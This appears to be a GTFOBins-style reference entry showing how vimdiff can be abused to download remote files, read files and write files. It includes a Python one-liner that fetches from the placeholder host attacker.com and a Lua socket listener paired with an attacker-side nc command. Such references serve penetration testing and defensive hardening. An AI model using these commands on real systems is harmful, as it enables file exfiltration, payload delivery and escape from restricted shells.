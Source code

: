 ## File download

It can download remote files.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
vimdiff -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
vimdiff file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vimdiff file_to_read
```
